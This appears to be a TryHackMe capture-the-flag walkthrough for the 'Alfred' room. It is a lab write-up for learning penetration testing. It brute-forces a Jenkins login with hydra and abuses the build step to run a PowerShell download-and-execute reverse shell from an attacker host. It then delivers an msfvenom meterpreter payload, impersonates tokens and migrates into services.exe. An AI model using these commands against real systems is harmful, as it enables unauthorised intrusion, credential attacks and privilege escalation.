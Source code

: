 ```yaml
---
title: Alfred
date: 2016-06-16 0:44:44 -0800
categories: [TryHackMe]
tags: [TryHackMe] 
pin: true
---
```

## [Click here if you're interested in the room!](https://tryhackme.com/room/alfred)


**This guide is meant to be used as a supplement for learning, please tackle this on your own before reading this!**



1. [How many TCP ports are open?](#1)
2. [What is the username and password for the log in panel?](#2)
3. [Find a feature of the tool that allows you to execute commands on the underlying system.](#3)
4. [What is the user.txt flag?](#4)
5. [Switching shells](#5)
6. [Size of the payload](#6)
7. [Token Impersonation](#7)
8. [Output of guid command](#8)
9. [Migrating and finding root.txt](#9)




<a name="1">
  
## 1) The first question asks for the number of TCP ports open, we can use a nmap scan for this.


```bash
nmap -vv -sC -sV -A -Pn -oN nmap.log {target_ip_here}
```

![image](https://user-images.githubusercontent.com/60508293/121830197-5854e580-cc79-11eb-9b1e-222a48c6e248.png)
![image](https://user-images.githubusercontent.com/60508293/121830228-699df200-cc79-11eb-8f13-f8aff52090b5.png)



<a name="2">
  
## 2) What is the username and password for the log in panel(in the format username:password)

Seems like port 8080 is open so lets navigate to that.
![image](https://user-images.githubusercontent.com/60508293/121830311-9d791780-cc79-11eb-95b5-bf9587c0fe16.png)

Navigating to the target ip at port 8080 brings us to a login page for [Jenkins]
![image](https://user-images.githubusercontent.com/60508293/121830930-12991c80-cc7b-11eb-9c32-2b018d9f9b92.png)

Viewing the page source doesn't seem to give any hidden credentials, so we will need to be bruteforcing credentials.

I will be using hydra for this.

First, I'll be using BurpSuite to intercept the login request.
We can see that it is a http post request along with the required parameters circled in red.
![image](https://user-images.githubusercontent.com/60508293/121830863-e8dff580-cc7a-11eb-8320-d5beb1ded444.png)

It seems like both the username and pass are 5 words long, I'll be using hydra to bruteforce credentials.
I will be making a copy of a username text file and a password textfile that are only five characters long from seclists.
![image](https://user-images.githubusercontent.com/60508293/121830634-44f64a00-cc7a-11eb-807e-1c346439cbe3.png)
![image](https://user-images.githubusercontent.com/60508293/121830726-84249b00-cc7a-11eb-8bc7-21d880aae6a0.png)

using hydra to bruteforce credentials
```bash
hydra -L five_c_user.txt -P five_c_pass.txt -s 8080 {target_ip} http-post-form "j/acegi_security_check:j_username=^USER^&j_password=^PASS^:Invalid username or password
```

**Success we can now login with our new credentials!**

![image](https://user-images.githubusercontent.com/60508293/121831597-afa88500-cc7c-11eb-97ad-7ba6f746e81a.png)

  
<a name="3">
  

## 3) Find a feature of the tool that allows you to execute commands on the underlying system.

Peering around the website we go into the project -> configure -> build and we are presented with something that looks like a CLI.
![image](https://user-images.githubusercontent.com/60508293/121832123-2db95b80-cc7e-11eb-80dd-0ff3d7077b35.png)

If we save and build the project again, we can see the whoami command is invoked in the latest build.
![image](https://user-images.githubusercontent.com/60508293/121832253-82f56d00-cc7e-11eb-89cd-3fc551689195.png)

Seems like we can gain access to the machine using a reverse shell.

Let's grab Nishang's TCP reverse shell script
```bash
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
```
Next, we'll need to host a http.server so the server can download the powershell file. (default port 8000)
```bash
python3 -m http.server
```
We will also need to open a netcat listener for the reverse shell, I will be using a wrapper called rlwrap along with nc to do this.
```bash
rlwrap nc -lvnp 4444
```
Run the  powerline command in the room.
The first download port should be the http.server port (8000) and the other port should be the nc reverse shell listener port (4444 in my case)
Then click build now.
```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```
  
<a name="4">  

## 4) What is the user.txt flag? 

We should be connected to our reverse shell after invoking the build.
![image](https://user-images.githubusercontent.com/60508293/121841549-67489180-cc93-11eb-9f1a-9a1ebadea749.png)



We're looking for a user.txt file, so lets run the equivalent find command in powershell
```powershell
Get-Childitem -Path C:\ -Include *user.txt* -Recurse -ErrorAction SilentlyContinue
```

Seems like we got a match!


![image](https://user-images.githubusercontent.com/60508293/121840047-3155de00-cc90-11eb-89e5-f4fd6db2ed46.png)


Success!


![image](https://user-images.githubusercontent.com/60508293/121840081-52b6ca00-cc90-11eb-82ec-74b932f74956.png)


![image](https://user-images.githubusercontent.com/60508293/121840109-65c99a00-cc90-11eb-8656-d632f9843b92.png)

  
<a name="5">
  
  
## 5) Switching shells
  
Using nc for a reverse shell is usually unstable or very buggy so using Metasploit to gain a meterpreter shell will give us a more full-fleshed shell experience.

Use msfvenom to generate a payload for the windows reverse shell (Im naming it as hello.exe):
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o hello.exe
```
  Host a python server on your local machine:
  ```python
  python3 -m http.server
  ```
  
Use the following command on our netcat reverse shell:
  ```powershell
  powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/hello.exe','hello.exe')"
  ```
  Seems like the powershell command successfully downloaded our payload.
  ![image](https://user-images.githubusercontent.com/60508293/121995046-2ddb5900-cd5b-11eb-9e9b-4a2613e061b4.png)
  
  Now we have to setup our handler in Metasploit
  ```
  use exploit/multi/handler
  set PAYLOAD windows/meterpreter/reverse_tcp
  set LHOST your-ip
  set LPORT listening-port
  run
  ```
  ![image](https://user-images.githubusercontent.com/60508293/121995391-b3f79f80-cd5b-11eb-98c1-f2172090b0a5.png)

  Finally we are ready to execute the program.
  Enter this command in the powershell:
  ```powershell
  Start-Process "hello.exe"
  ```
  Sucessfully connected.
  
  
  ![image](https://user-images.githubusercontent.com/60508293/121996252-1b621f00-cd5d-11eb-81af-63f129f5a167.png)
  
  
<a name="6">

## 6) What is the size of the payload
  
  
![image](https://user-images.githubusercontent.com/60508293/121997974-063abf80-cd60-11eb-952e-4e2c916f4946.png)


<a name="7">
  
  
## 7) Token Impersonation
  
  Now that we're in the meterpreter shell, lets switch to powershell before executing the following commands.
  ```powershell
  use powershell
  powershell_shell
  whoami /priv
  ```
  
  We can use the incognito module to exploit these two privileges.
  ![image](https://user-images.githubusercontent.com/60508293/121997268-f4a4e800-cd5e-11eb-83c8-596a9a0afc72.png)
  
  Exit out of powershell and execute in the meterpreter shell:
  
  
  ![image](https://user-images.githubusercontent.com/60508293/121997459-3e8dce00-cd5f-11eb-913e-8a3715c60f13.png)

  List all tokens then impersonate the Administrators token.
  ```
  list_tokens -g
  ```
  
  ![image](https://user-images.githubusercontent.com/60508293/121997745-acd29080-cd5f-11eb-8ec0-9cbb03ad132d.png)

  

  
<a name="8">
 
## 8) Output of guid
  
  
  ![image](https://user-images.githubusercontent.com/60508293/121998113-3e420280-cd60-11eb-999e-97928a8edc7c.png)
  
  
  
  
  
<a name="9">
    
    
 
## 9) Migrating and finding root.txt
    
Use the command ps and find the PID of services.exe in red
  
  
![image](https://user-images.githubusercontent.com/60508293/121998564-e3f57180-cd60-11eb-8f2e-b773b004afd3.png)


  
Migrate to services.exe
  
  
  
![image](https://user-images.githubusercontent.com/60508293/121998744-33d43880-cd61-11eb-9f7f-1623c4f6ba20.png)


  
Find root.txt and the flag.

  
![image](https://user-images.githubusercontent.com/60508293/121999513-4307b600-cd62-11eb-9ad9-c2934d856c7b.png)

![image](https://user-images.githubusercontent.com/60508293/121999684-75b1ae80-cd62-11eb-9fa4-6f0ec0771414.png)

  
 
### Congratulations, the room is now complete! Hopefully, this guide was helpful for anyone stuck in this room. 


  

